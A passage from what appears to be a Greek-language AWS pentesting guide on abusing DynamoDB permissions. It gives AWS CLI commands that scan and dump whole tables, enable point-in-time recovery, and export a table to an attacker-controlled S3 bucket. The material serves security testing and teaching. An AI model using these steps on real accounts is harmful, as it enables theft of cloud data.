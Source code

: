 {% tab title="inline" %}
```bash
aws dynamodb query \
--table-name TargetTable \
--key-condition-expression "AttributeName = :value" \
--expression-attribute-values '{":value":{"S":"TargetValue"}}' \
--region <region>
```
{% endtab %}
{% endtabs %}

**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:Scan`

Μπορείτε να χρησιμοποιήσετε αυτήν την άδεια για να **εξάγετε εύκολα ολόκληρο τον πίνακα**.
```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```
**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:PartiQLSelect`

Μπορείτε να χρησιμοποιήσετε αυτήν την άδεια για να **εξάγετε ολόκληρο τον πίνακα εύκολα**.
```bash
aws dynamodb execute-statement \
--statement "SELECT * FROM ProductCatalog"
```
Αυτή η άδεια επιτρέπει επίσης την εκτέλεση `batch-execute-statement` όπως:
```bash
aws dynamodb batch-execute-statement \
--statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```
αλλά πρέπει να καθορίσετε το πρωτεύον κλειδί με μια τιμή, οπότε δεν είναι και τόσο χρήσιμο.

**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

Αυτή η άδεια θα επιτρέψει σε έναν επιτιθέμενο να **εξάγει ολόκληρο τον πίνακα σε ένα S3 bucket** της επιλογής του:
```bash
aws dynamodb export-table-to-point-in-time \
--table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
--s3-bucket <attacker_s3_bucket> \
--s3-prefix <optional_prefix> \
--export-time <point_in_time> \
--region <region>
```
Σημειώστε ότι για να λειτουργήσει αυτό, ο πίνακας πρέπει να έχει ενεργοποιημένη την ανάκτηση σε συγκεκριμένο χρόνο, μπορείτε να ελέγξετε αν ο πίνακας το έχει με:
```bash
aws dynamodb describe-continuous-backups \
--table-name <tablename>
```
Αν δεν είναι ενεργοποιημένο, θα χρειαστεί να **το ενεργοποιήσετε** και για αυτό χρειάζεστε την άδεια **`dynamodb:ExportTableToPointInTime`**:
```bash
aws dynamodb update-continuous-backups \
--table-name <value> \
--point-in-time-recovery-specification PointInTimeRecoveryEnabled=true
```
**Πιθανές Επιπτώσεις:** Έμμεσο privesc εντοπίζοντας ευαίσθητες πληροφορίες στον πίνακα
